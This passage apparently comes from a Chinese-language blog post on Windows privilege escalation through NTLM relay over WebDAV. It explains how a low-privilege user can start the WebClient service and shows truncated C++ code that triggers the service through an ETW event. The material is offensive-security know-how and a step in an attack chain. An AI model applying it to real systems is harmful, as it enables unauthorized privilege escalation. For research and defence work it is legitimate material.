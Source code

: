 ![](/assets/posts/2022-05-02-privilege-escalation-ntlmrelay2self-over-http-webdav/image-20220515014102864.png)

## NTLM Relay over HTTP (Webdav)

虽然 WebDAV 可以帮助我们强制客户端执行身份验证，但是有一个必要条件就是客户端系统上必须安装并启用 WebClient 服务。尽管这是 Workstation 版本系统上的默认设置，但并不适用于 Server 版本系统。在 Server 版本系统上，我们仍然需要通过附加功能来安装并启用 WebDAV 组件。

此外，虽然绝大多数系统服务的启动需要提升的权限，但是低权限用户仍然可以通过调用服务控制管理器（Services Control Manager，SCM）来启动 WebClient 服务，相关代码参考自 [SysExec](https://github.com/NotGlop/SysExec)：

```c++
#include <windows.h>
#include <evntprov.h>
#include <iostream>

void StartWebClientService()
{
	REGHANDLE hReg;
	bool success = false;
	const GUID WebClientServiceTrigger =
	{ 0x22B6D684, 0xFA63, 0x4578,
	{ 0x87, 0xC9, 0xEF, 0xFC, 0xBE, 0x66, 0x43, 0xC7 } };

	if (EventRegister(&WebClientServiceTrigger, NULL, NULL, &hReg) == ERROR_SUCCESS)
	{
		EVENT_DESCRIPTOR eDesc;
		EventDescCreate(&eDesc, 1, 0, 0, 4, 0, 0, 0);
		success = EventWrite(hReg, &eDesc, 0, nullptr) == ERROR_SUCCESS;
		EventUnregister(hReg);
	}

	// Now wait for the service to be running

	SC_HANDLE schSCM;
	SC_HANDLE schSvc;
	SERVICE_STATUS ssStatus;
	schSCM = OpenSCManager(NULL, NULL, SC_MANAGER_CONNECT);
	if (NULL == schSCM)
		printf("[-] Failed OpenSCManager: %d\n", GetLastError());

	schSvc = OpenService(schSCM, L"WebClient", SERVICE_QUERY_STATUS);
	if (NULL == schSvc)
		printf("[-] Failed OpenService: %d\n", GetLastError());
	do
		QueryServiceStatus(schSvc, &ssStatus);
```